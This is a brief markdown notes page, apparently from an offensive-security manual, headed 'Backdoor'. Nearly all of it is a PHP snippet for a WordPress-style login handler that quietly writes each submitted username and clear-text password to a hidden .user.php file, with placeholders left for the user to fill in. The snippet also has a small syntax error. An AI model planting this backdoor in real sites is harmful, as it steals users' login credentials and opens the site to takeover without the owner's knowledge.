 # Manual

## Backdoor

Backdoor user login forum to harvest the credentials in clear text.

```php
if(!empty($_POST['pwd']) {
	$credentials['user_password'] = $_POST['pwd'];
	// file_put_contents("wp-include/.user.php", "WP: " . $_POST['log']
	file_put_contents("/path/to/wp-include/.user.php", "<change_this>: " . $_POST['<change_this>']
			. " : " . $_POST['pwd'] . "\n", FILE_APPEND);
}
```
